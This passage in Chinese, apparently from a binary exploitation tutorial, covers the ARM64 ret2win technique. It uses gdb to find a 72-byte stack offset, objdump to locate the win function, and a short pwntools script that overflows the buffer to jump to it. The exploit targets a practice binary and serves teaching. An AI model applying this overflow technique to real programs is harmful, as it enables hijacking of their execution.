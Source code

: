 **偏移量是 72 (9x48)。**

### 栈偏移选项

首先获取存储 pc 寄存器的栈地址：
```bash
gdb -q ./ret2win
b *vulnerable_function + 0xc
run
info frame
```
<figure><img src="../../../images/image (1207).png" alt=""><figcaption></figcaption></figure>

现在在 `read()` 之后设置一个断点，并继续直到 `read()` 被执行，并设置一个模式，例如 13371337:
```
b *vulnerable_function+28
c
```
<figure><img src="../../../images/image (1208).png" alt=""><figcaption></figcaption></figure>

找到这个模式在内存中的存储位置：

<figure><img src="../../../images/image (1209).png" alt=""><figcaption></figcaption></figure>

然后： **`0xfffffffff148 - 0xfffffffff100 = 0x48 = 72`**

<figure><img src="../../../images/image (1210).png" alt="" width="339"><figcaption></figcaption></figure>

## 无PIE

### 常规

获取 **`win`** 函数的地址：
```bash
objdump -d ret2win | grep win
ret2win:     file format elf64-littleaarch64
00000000004006c4 <win>:
```
利用：
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p64(0x00000000004006c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
<figure><img src="../../../images/image (1211).png" alt="" width="375"><figcaption></figcaption></figure>
